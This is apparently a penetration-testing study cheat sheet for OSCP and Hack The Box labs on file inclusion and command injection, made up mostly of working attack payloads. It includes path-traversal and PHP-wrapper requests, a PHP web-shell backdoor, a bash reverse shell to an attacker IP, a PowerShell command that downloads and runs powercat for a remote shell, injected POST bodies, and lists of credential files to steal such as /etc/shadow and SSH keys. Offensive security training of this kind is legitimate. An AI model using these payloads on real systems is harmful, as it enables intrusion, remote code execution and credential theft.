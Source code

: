 ## LFI / RFI

ON OSCP, if you are able to find LFI anywhere, hunt down the SSH keys first

### Links
- [Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html)
- [Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/)
- [LFI Medium Article](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601)

### Quick Notes

```
Directory Traversal

Curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log

 

LFI

Curl http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>

 

PHP Wrapper

Curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php

Curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php

 

RFI

Curl http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simplebackdoor.php&cmd=ls

 

Command Injection:

curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive
```


### Local File Inclusion:

1. Check if you can convert LFI to RFI
2. Try adding %00 to bypass the added extension on the server side. (Works on PHP < 5.3)
3. You can even add? to bypass it.
4. If you can't read php files: **php://filter/convert.base64-encode/resource=index**
5. Try reading important files from the system other than **passwd.** Enumeration might help in determining which files might be important. Maybe try checking the config files for the web app

### WINDOWS FILES

```
c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

### LINUX FILES

```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
php://filter/convert.base64-encode/resource=/etc/passwd
php://filter/resource=/etc/passwd
```

### LOG FILES

```
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
```

### RFI

```
file=data:text/plain,hello world
file=data:text/plain,<?php echo shell_exec("dir") ?>
```

### LFI and RFI Examples

```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/a pache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22

w/php wrapper:

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64encode/resource=admin.php

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

```

![File Inclusion Example](FileInclusionExample.png)

### Remote File Inclusion

```
//Simple PHP backdoor
<?php 
if(isset($_REQUEST['cmd'])){ 
	echo "<pre>"; $cmd = ($_REQUEST['cmd']); 
	system($cmd); echo "</pre>"; die;
?}>

Then:

python3 -m http.server 80
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simplebackdoor.php&cmd=ls"


```

### Command Injection

```

curl -X POST --data 'Archive=git' http://192.168.50.189:8000/archive

curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive

(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive

try system access with power cat:
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python3 -m http.server 80
nc -nvlp 4444

*This encoded: ```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```*
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive



```


### Notes from HTB StreamIO for LFI

```
If you see this, maybe you can LFI: **?user=**

Fuzz it:
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u https://streamio.htb/admin/index.php?message=FUZZ -b PHPSESSID=8ldbs678ajgeum49okb767249a -fs 1678

ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u https://streamio.htb/admin/index.php?FUZZ= -b PHPSESSID=8ldbs678ajgeum49okb767249a -fs 1678

ffuf -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u https://streamio.htb/admin/index.php?debug=FUZZ -b PHPSESSID=8ldbs678ajgeum49okb767249a -fs 1712


ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u https://streamio.htb/admin/FUZZ.php -b PHPSESSID=8ldbs678ajgeum49okb767249a



Also worth noting here, once we figured out we could do LFI via the include command, I used burp to repeat, changed from GET to POST, and added the include line at the end, but still needed to also manually add the Content:type line:

POST /admin/index.php?debug=master.php HTTP/2
Host: streamio.htb
Cookie: PHPSESSID=9acr1fp7e2rjcfnhgat8l8hnfs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

include=http://10.10.14.76/rce.php
```